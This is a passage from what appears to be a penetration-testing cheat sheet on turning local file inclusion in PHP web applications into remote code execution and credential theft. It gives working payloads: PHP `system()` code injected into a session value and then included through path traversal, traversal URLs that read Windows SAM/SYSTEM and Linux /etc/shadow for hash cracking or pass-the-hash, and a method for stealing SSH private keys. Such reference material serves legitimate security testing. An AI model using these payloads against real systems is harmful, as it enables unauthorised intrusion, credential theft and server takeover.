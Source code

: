 Reagardless we are still able to access the C:\xampp\apache\logs\access.log and execute the shell.

### LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess\_\[PHPSESSID] or /var/lib/php/session/sess\_\[PHPSESSID] files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

### LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.

#### Windows version

First extract `sam` and `system` files.

```
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

#### Linux version

First extract `/etc/shadow` files.

```
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id\_rsa. If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
